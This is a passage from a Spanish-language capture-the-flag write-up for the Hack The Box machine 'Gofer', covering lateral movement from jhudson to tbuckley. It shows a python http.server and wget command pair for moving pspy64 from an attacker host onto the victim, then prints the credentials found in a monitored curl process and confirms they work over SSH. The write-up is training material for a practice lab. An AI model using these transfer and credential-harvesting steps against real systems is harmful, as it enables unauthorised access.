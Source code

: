 ![](/assets/img/gofer/9.png)

## Moviento laterial: jhudson --> tbuckley

Podriamos a empezar a enumerar por binarios SUID, permisos de nivel de sudoers, capabilities, etc, etc, pero no va por ahi, en este punto decidi usar **pspy64** para ver si hay algun proceso interesante, asi que me pase el binario a la maquina victima

```ruby
python3 -m http.server 8086 --> maquina atacante
wget <tu_IP>:8086/pspy64 --> maquina victima
```

Viendo los resultados, nos damos cuenta que hay un proceso de un script que envia una peticion con curl a **proxy.gofer.htb** y hay unas credenciales

![](/assets/img/gofer/10.png)

usr: **tbuckley**

pass: **ooP4dietie3o_hquaeti**

Si las probamos por SSH, son validas

![](/assets/img/gofer/11.png)
